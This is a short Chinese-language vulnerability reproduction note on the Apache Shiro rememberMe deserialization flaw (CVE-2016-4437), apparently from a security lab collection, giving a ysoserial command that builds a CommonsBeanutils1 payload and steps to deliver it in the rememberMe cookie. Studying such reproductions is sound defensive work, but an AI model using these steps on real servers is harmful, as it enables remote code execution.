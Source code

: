 # Apache Shiro 小于1.2.4反序列化漏洞(CVE-2016-4437)(Shiro-550)

### 漏洞描述

Apache Shiro默认使用了`CookieRememberMeManager`，其处理cookie的流程是：得到rememberMe的cookie值 》 Base64解码 》 AES解密 》 反序列化。因AES密钥为硬编码，导致攻击者可以构造恶意数据造成反序列化的RCE漏洞。

### 漏洞复现

使用ysoserial生成CommonsBeanutils1的Gadget：

```bash
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "calc.exe" > poc.ser
```

运行`GenPayload.java`生成加密后的Payload，放入Cookie中的rememberMe字段发送即可：

![image1](image1.PNG)

### 参考链接

* [shiro550反序列化分析](https://www.cnblogs.com/twosmi1e/p/14279403.html)

* [Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）](https://vulhub.org/#/environments/shiro/CVE-2016-4437/)